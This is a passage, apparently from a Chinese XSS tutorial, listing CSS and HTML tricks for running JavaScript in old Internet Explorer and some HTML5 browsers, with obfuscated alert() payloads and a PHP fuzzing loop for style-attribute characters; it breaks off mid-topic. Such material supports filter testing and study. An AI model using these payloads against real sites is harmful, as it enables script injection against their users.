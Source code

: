 从 IE5.5 到 IE8 中，除了 expression 可以用来执行 JavaScript 之外，也可以通过 HTML+TIME 的形式。

这种方式唯一的缺点就是也需要一个事件来执行 JavaScript，即 onbegin 或者 onend：

```
1<l style="behavior:url(#default#time2)"onbegin="alert(1)"> 
```

还有一种方式利用 set 标签：

```
1<set/ style="beh&#x41vior:url(#default#time2)" attributename="innerhtml" to="&lt;img/src=&quot;x&quot;onerror=alert(1)&gt;"> 
```

测试一下 style 属性中在哪些浏览器中，可以插入哪些字符：

```
<?php
for($i = 0; $i<=65535; $i++) {
    $chr = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');
    echo '<a style="color='.$chr.'red">'.dechex($i).'['.$chr.']</a>';
} ?> 
```

从测试结果可以得出，下面的代码可以在 IE 中执行：

```
<div style=xss&#x2000;:&#x3000;expression(write(1))> 
```

在一些老版本的 IE 中，如 IE6 和 IE7，还可以通过背景相关属性调用 javascript 的 URL 来执行 javascript 代码：

```
<b style="background:url(javascript:alert('background'))">xxx</b> 
<b style="background-image:url(javascript:alert('background'))"> xxx</b>
<b style="list-style:url(javascript:alert('background'))">xxx</b> 
<b style="list-style-image:url(javascript:alert('background'))"> xxx</b> 
```

通过 link 标签（在 IE6 下适用，同时 javascript 可以换成 vbscript）：

```
<link rel="stylesheet" href="javascript:alert(1)">
<link rel="stylesheet" href="vb&#x09script:%61lert(document.domain)"> 
```

style 标签中可以通过导入 url 的方式执行 javascript：

```
<style>
@imp\o\ rt url('javascript:%61lert(2)'); 
</style> 
```

HTML5 中增加了很多标签跟属性，列举一些可执行 JavaScript 的方法：

```
<form><input><output onforminput="alert(1)"> //Opera 支持 
```

onfocus 与 autofocus 的配合：
